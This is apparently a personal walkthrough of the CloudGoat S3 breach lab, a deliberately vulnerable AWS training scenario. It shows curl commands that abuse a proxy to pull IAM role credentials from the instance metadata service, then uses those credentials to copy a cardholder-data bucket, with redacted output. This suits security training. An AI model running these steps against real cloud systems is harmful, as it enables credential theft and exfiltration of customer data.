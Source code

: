 


## Walkthrough of the Rhino Labs S3 data breach scenario

<HR>
This walkthrouh includes steps for setup, commands in the cheatsheet which needed slight modification to work.  
After going through the scenario as written, I wanted to see whether we could prevent access with iptables firewall, 
and how the scenario would be impacted by implementation of the Instance Metadata Service Version 2 (IMDSV2) announced at re:Invent in December, 2019. 

<HR>
  
## Reference: 

Cloud Goat S3 breach scenario (release notes)
https://rhinosecuritylabs.com/aws/capital-one-cloud_breach_s3-cloudgoat/

Scenario Details: 
https://github.com/RhinoSecurityLabs/cloudgoat/blob/master/scenarios/cloud_breach_s3/README.md

Scenario Cheat Sheet:
https://github.com/RhinoSecurityLabs/cloudgoat/blob/master/scenarios/cloud_breach_s3/cheat_sheet.md

NOTE: Additional setup needed: ‘cloudgoat’ IAM user and profile, described in the CloudGoat 2 release notes 
https://rhinosecuritylabs.com/aws/introducing-cloudgoat-2/





<HR>
  
## Steps in scenario cheat-sheet:

1) curl -s http://<ec2-ip-address>/latest/meta-data/iam/security-credentials/ -H 'Host:169.254.169.254' 
``` 
% curl -s http://34.234.223.255/latest/meta-data/iam/security-credentials/ -H 'Host:169.254.169.254'
cg-banking-WAF-Role-cgidatyedvvzzy
% 
```

2) curl http://<ec2-ip-address>/latest/meta-data/iam/security-credentials/<ec2-role-name> -H 'Host:169.254.169.254'

```
%~/Cloud_Goat_Test/Walkthrough# curl -s http://34.234.223.255/latest/meta-data/iam/security-credentials/cg-banking-WAF-Role-cgidatyedvvzzy -H 'Host:169.254.169.254'
{
  "Code" : "Success",
  "LastUpdated" : "2020-01-12T19:06:22Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "XXXXXXXXXXXXXXXXXXXXXX",
  "SecretAccessKey" : "XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX",
  "Token" : "XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX==",
  "Expiration" : "2020-01-13T01:42:16Z"
```

#3) aws configure --profile erratic

```
% aws configure --profile erratic
AWS Access Key ID [****************4R4E]: XXXXXXXXXXXXXXXXXX
AWS Secret Access Key [****************plSQ]: XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX          
Default region name [us-east-1]: us-east-1
Default output format [None]: 
%
```

#4) aws_session_token = <session-token>

Note: the steps required are slightly different than described in the cheat-sheet for this scenario.

Exporting as an environment variable could work, the variable name would need to be capitalized. “export AWS_SESSION_TOKEN=QoJb3Jp...”  The order for processing IAM credentials is: 1) in your code, 2) environment variables, 3) user profile ~/.aws/credentials  4) Role  

The cheat-sheet for the Cloud Goat server side request forgery scenario “ec2_ssrf” shows how to configure the TOKEN in the user profile:  https://github.com/RhinoSecurityLabs/cloudgoat/blob/master/scenarios/ec2_ssrf/cheat_sheet_solus.md


<HR>
  
After editing for our current test: 

```
% tail ~/.aws/credentials
...
[erratic]
aws_session_token=XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXx/XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX==
aws_access_key_id = XXXXXXXXXXXXXXXXXXXXXXXXXXXX
aws_secret_access_key = XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXxxx
```

<HR>

5) Use new credentials to list S3 buckets?  Success!

```
% aws s3 ls --profile erratic
2020-01-12 14:07:01 cg-cardholder-data-bucket-cgidatyedvvzzy
%
```

<HR>
  
6)  Copy bucket contents

```
% aws s3 sync s3://cg-cardholder-data-bucket-cgidatyedvvzzy ./cardholder-data --profile erratic
download: s3://cg-cardholder-data-bucket-cgidatyedvvzzy/cardholder_data_primary.csv to cardholder-data/cardholder_data_primary.csv
download: s3://cg-cardholder-data-bucket-cgidatyedvvzzy/cardholders_corporate.csv to cardholder-data/cardholders_corporate.csv
download: s3://cg-cardholder-data-bucket-cgidatyedvvzzy/cardholder_data_secondary.csv to cardholder-data/cardholder_data_secondary.csv
download: s3://cg-cardholder-data-bucket-cgidatyedvvzzy/goat.png to cardholder-data/goat.png
```

<HR>
  
#7) Reveiw local copy 

```
% ls ./cardholder-data/
cardholder_data_primary.csv  cardholder_data_secondary.csv  cardholders_corporate.csv  goat.png

% ls -ltr
total 456
-rw-r--r-- 1 root root 249500 Jan 12 14:07 goat.png
-rw-r--r-- 1 root root  92165 Jan 12 14:07 cardholders_corporate.csv
-rw-r--r-- 1 root root  59384 Jan 12 14:07 cardholder_data_secondary.csv
-rw-r--r-- 1 root root  58872 Jan 12 14:07 cardholder_data_primary.csv

% firefox ./goat.png
```









    


